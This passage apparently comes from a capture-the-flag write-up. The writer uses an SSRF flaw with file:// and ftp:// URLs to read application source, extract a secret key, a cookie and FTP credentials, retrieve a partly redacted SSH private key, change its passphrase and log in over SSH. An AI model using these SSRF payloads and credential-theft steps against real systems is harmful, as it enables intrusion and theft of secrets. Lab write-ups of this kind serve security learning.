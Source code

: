 ```
 file:///proc/self/cmdline
 file:///app/code/app.py
 file:///app/code/blueprints/dashboard/dashboard.py
 file:///app/code/blueprints/report/report.py
 file:///app/code/blueprints/index/index.py 
```

I got to work digging around in the files with the help of the SSRF, and found some very interesting snippets.

app/code/app.py:
```
app.secret_key = "7ASS7A............."
```

I wasn't quite sure what this was for, so I kept going.

/app/code/blueprints/dashboard/dashboard.py:
```
'Cookie': 'user_data=eyJ1c2VyX2lkIjogMSwgIn.............................'
```

I had already gotten an admin cookie, so another cookie seemed moot. I kept digging.

/app/code/blueprints/dashboard/dashboard.py:
```
ftp.login(user='ftp_admin', passwd='u3j..........')
```

This is more like it! However, there's no ftp port open to me. Instead, I'll try this in the report url field with the SSRF.

```
 ftp://ftp_admin:u3j........@ftp.local/
```

The resulting pdf shows us a welcome note and an rsa key. I then use the same vulnerability to copy both files. The welcome note contains the passphrase needed to access the private key.  

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDyIVwjHg
cDQsuL69cF7BJpAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDfUe6nu6ud
KETqHA3v4sOjhIA4sxSwJOpWJsS//l6KBOcHRD6qJiFZeyQ5NkHiEKPIEfsHuFMzykx8lA
.................................................
ci+lAtzdlOEAI6unVp8DiIdOeprpLnTBDHCe3+k3BD6tyOR0PsxIqL9C4om4G16cOaw9Lu
nCzj61Uyn4PfHjPlCfb0VfzrM+hkXus+m0Oq4DccwahrnEdt5qydghYpWiMgfELtQ2Z3W6
XxwXArPr6+HQe9hZSjI2hjYC2OU=
-----END OPENSSH PRIVATE KEY-----
```

I quickly changed the passphrase to something easier to type, and found a comment that gave me the associated account.

```
ssh-keygen -p -f ./adam_id_rsa -N test -P 'Y27S..........'
```

I then logged in via the open SSH port using the private key. 
